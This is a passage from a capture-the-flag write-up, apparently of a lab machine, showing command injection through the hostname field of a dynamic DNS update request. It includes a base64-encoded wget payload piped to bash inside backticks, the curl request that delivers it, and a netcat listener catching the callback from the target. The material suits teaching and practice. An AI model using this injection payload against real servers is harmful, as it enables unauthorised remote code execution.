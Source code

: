 > As you can see, when single quote is used it print the literal value but when double quote executed the value.  **Backtick**: Everything we type between backticks is evaluated (executed) by the  before the main command.  **Example**:

```
🔥\> echo uname
uname

🔥\> echo `uname`
Linux
```

> As you can see, first executed without backtick and it just print the string which I used, but in second I used backtick and so it executed and print the value.

Coming back to our RCE, I used backtick in above curl command as subdomain with hostname. So, the server before validating the hostname it executed our linux command. It doesn’t proves that we have a working RCE. Let’s get a confirmation whether there’s a possibility of an RCE exists or not. For this we need to open port 80, use base64 to encode wget payload and convert payload into url encode.

**cURL - 5**

```
🔥\> nc -lvnp 80
listening on [any] 80 ...

🔥\> echo -n 'wget 10.10.14.11' | base64
d2dldCAxMC4xMC4xNC4xMQ==

🔥\> printf %s '`echo d2dldCAxMC4xMC4xNC4xMQ== | base64 -d | bash`'|jq -sRr @uri
%60echo%20d2dldCAxMC4xMC4xNC4xMQ%3D%3D%20%7C%20base64%20-d%20%7C%20bash%60
```

Under URL encoding we are using the base64 string, piping it for decoding and piping it again to bash. If it works, then we would see a connection request on out netcat listener. Let’s execute out CURL command.

```
🔥\> curl --user dynadns:sndanyd 'http://dyna.htb/nic/update?hostname=%60echo%20d2dldCAxMC4xMC4xNC4xMQ%3D%3D%20%7C%20base64%20-d%20%7C%20bash%60.dnsalias.htb&myip=10.10.14.11' -v
```

Check your NetCat Listener.

```
🔥\> nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.11] from (UNKNOWN) [10.129.48.120] 48594
GET / HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.10.14.11
Connection: Keep-Alive
```

We got a working RCE confirmation now. Let’s get a reverse connection.
